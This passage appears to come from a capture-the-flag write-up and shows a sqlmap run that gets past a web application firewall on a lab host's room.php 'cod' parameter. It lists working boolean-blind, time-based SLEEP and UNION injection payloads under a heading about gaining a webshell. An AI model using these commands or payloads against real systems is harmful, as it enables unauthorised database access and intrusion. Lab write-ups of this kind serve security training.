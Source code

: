 ### Path 2: WebShell Via SQLi

#### sqlmap

It seems that IronWAF isn’t perfect against `sqlmap`. I got it to work sometimes. But with a bit of tweaking, I could get it to work reliably. The options I’ll use are `--random-agent` to mess with the user agent string, and low level and risk.

```

root@kali# sqlmap -u http://10.10.10.143:80/room.php?cod=1 --random-agent --level 1 --risk 1  --batch
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.3.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[15:03:25] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.5; en-US; rv:1.9.1b4) Gecko/20090423 Firefox/3.5b4 GTB5' from file '/usr/share/sqlmap/txt/user-agents.txt'
[15:03:25] [INFO] testing connection to the target URL
[15:03:25] [INFO] checking if the target is protected by some kind of WAF/IPS
[15:03:25] [INFO] testing if the target URL content is stable
[15:03:26] [INFO] target URL content is stable
[15:03:26] [INFO] testing if GET parameter 'cod' is dynamic
[15:03:26] [INFO] GET parameter 'cod' appears to be dynamic
[15:03:26] [INFO] heuristic (basic) test shows that GET parameter 'cod' might be injectable
[15:03:26] [INFO] testing for SQL injection on GET parameter 'cod'
[15:03:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:03:27] [INFO] GET parameter 'cod' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="of")
[15:03:28] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
...[snip]...
[15:03:40] [INFO] GET parameter 'cod' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[15:03:40] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[15:03:40] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[15:03:40] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[15:03:40] [INFO] target URL appears to have 7 columns in query
[15:03:41] [INFO] GET parameter 'cod' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'cod' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 8643=8643

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cod=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
```